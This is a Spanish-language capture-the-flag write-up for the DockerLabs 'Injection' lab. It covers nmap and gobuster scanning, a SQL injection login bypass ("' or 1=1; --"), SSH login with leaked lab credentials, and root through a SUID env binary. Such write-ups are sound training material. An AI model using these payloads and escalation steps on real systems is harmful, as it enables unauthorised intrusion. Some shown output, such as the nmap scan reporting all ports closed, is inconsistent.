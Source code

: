 #Injection DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Empezamos con un escaneo básico de nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:23 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00021s latency).
All 65535 scanned ports on 172.17.0.2 are in ignored states.
Not shown: 65535 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds

```

Realizamos un escaneo de subdominios con gobuster hacia "http://172.17.0.2":

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================

```

Entramos en "http://172.17.0.2/index.php/" y vemos que hay un login web.
Intentamos bypassearlo utilizando la vunerabilidad "sql injection":

```shell
' or 1=1; --
```

![Captura de pantalla 2024-05-14 195628](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5da299de-f3ce-4ad0-a18f-b7c21ab565af)

Logramos bypassearlo y vemos un usuario "dylan" y una contraseña "KJSDFG789FGSDF78":

![Captura de pantalla 2024-05-14 195654](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6d613173-33fe-46f4-9d63-420a7895c706)

Introduciomos estos datos en el servidor ssh:


```shell                                                                   
└─$ ssh dylan@172.17.0.2                                                                                                  
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```

Buscamos binarios con permisos SUID

```shell
dylan@37ab85f5f7a7:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chsh
/usr/bin/env
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd

```

Buscamos el binario env en "https://gtfobins.github.io/gtfobins/env/".
Ejecutamos el comando de la web:

```shell
sudo env /bin/sh
```

```shell
# whoami
root
```
